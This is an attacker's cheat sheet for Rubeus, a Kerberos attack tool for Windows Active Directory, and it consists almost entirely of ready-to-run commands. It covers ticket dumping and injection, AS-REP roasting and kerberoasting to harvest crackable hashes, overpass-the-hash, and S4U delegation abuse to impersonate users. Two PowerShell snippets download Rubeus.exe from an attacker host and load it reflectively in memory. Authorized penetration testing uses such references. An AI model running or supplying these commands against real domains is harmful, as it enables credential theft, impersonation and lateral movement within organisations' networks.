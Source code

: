 # rubeus

% ad, windows, rubeus

## List ticket
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe triage
```

## load rubeus from powershell
#plateform/windows #target/local #cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<lhost>/Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```

## execute rubeus from powershell
#plateform/windows #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## monitor
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## inject ticket from b64 blob
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a spesific format
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## Dump specific ticket for easy cc
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe dump /luid:<luid> /service:<service> /nowrap
```

## ask and inject ticket
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

## Rubeus Reflection assembly
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
